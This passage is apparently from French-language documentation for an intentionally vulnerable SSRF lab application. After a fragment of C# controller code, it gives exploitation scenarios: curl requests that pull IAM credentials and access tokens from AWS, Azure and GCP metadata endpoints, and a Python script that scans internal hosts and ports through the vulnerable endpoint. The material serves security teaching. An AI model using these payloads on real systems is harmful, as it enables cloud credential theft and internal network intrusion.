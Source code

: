 ```csharp
            results.Add(new { error = ex.Message, feed = feedUrl });
        }
    }

    return Ok(new { feeds = results, totalProcessed = request.FeedUrls.Count });
}
```

## 💥 Scénarios d'exploitation

### Scénario 1 : Accès aux métadonnées cloud (AWS/Azure/GCP)
```bash
# AWS - Récupération des credentials IAM
curl -X POST http://localhost:5000/api/ssrf/proxy \
    -H "Content-Type: application/json" \
    -d '{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'

# Azure - Récupération du token d'accès
curl -X POST http://localhost:5000/api/ssrf/proxy \
    -H "Content-Type: application/json" \
    -d '{"url": "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"}'

# GCP - Récupération du service account
curl -X POST http://localhost:5000/api/ssrf/proxy \
    -H "Content-Type: application/json" \
    -d '{"url": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"}'
```

### Scénario 2 : Scan du réseau interne
```python
import requests
import ipaddress

def scan_internal_network(base_url, network="192.168.1.0/24"):
    """Scan un réseau interne via SSRF"""
    discovered_services = []
    
    for ip in ipaddress.IPv4Network(network):
        # Test de ports communs
        for port in [22, 80, 443, 3306, 5432, 6379, 8080, 9200]:
            url = f"http://{ip}:{port}"
            
            response = requests.post(
                f"{base_url}/api/ssrf/url/validate",
                json={"url": url}
            )
            
            if response.status_code == 200:
                data = response.json()
                if data.get("isReachable"):
                    discovered_services.append({
                        "ip": str(ip),
                        "port": port,
                        "service": guess_service(port)
                    })
                    print(f"Service découvert: {ip}:{port}")
    
    return discovered_services

```